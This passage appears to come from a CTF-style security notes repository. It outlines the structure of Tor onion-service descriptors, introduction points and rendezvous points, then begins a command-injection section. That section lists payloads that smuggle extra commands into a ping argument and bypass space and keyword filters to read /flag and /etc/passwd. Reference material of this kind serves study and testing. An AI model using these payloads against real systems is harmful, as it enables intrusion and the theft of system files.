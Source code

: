       - descriptor-lifetime
      - descriptor-signing-key-cert
        > A certificate that is signed by the blinded key to ensure the integrity.
      - superencrypted
        > Data encrypted with a symmetric key derived from **blinded_pubkey**
        > and **SUBCREDENTIAL** to make sure the client knows the **service_address**.
        - auth-client
          > Decrypt information for authenticated users if restricted
          > discovery is enabled.
        - encrypted
          > Data encrypted with a symmetric key derived from **blinded_pubkey**,
          > **subcredentail**, and **descriptor_cookie** (if restricted
          > discovery is enabled, leave blank otherwise)
          - introduction-point
            > Provide 3 relays by default.
      - signature
  - Introduction Point
    > An onion service establishes long-term circuits to 3 different
    > Tor relays, called introduction points, to conceal its location
    > from clients.
    >
    > A client selects one of these introduction points, as listed in
    > the service descriptor, to initiate communication with the
    > service.
  - Rendezvous Point
    - verify secret from both side


### Technique


#### Broken Access Control
- Insecure Direct Object References (IDOR)

#### Cache Poisoning

#### Command Injection
- Basic
  - $ ping 127.0.0.1 `; id`
  - $ ping 127.0.0.1 `| id`
  - $ ping 127.0.0.1 `&& id`
  - $ ping '127.0.0.1`'; id #` ' 
  - $ ping "`$(id)`"
  - $ cat mewo.txt `$(id)`
  - $ cat mewo.txt `` `id` ``
  - Newline (0x0A, \n, %0A)
- Space Bypass
  - $ cat`<TAB>`/flag
  - $ cat\</flag
  - $ {cat,/flag}
  - $ cat$IFS/flag
  - $ X=$'cat\x20/flag'&&$X
- Keyword Bypass
  - $ cat /f'la'g
  - $ cat /f"la"g
  - $ cat /f\l\ag
  - $ cat /f\*
  - $ cat /f?a?
  - $ cat ${HOME:0:1}etc${HOME:0:1}passwd

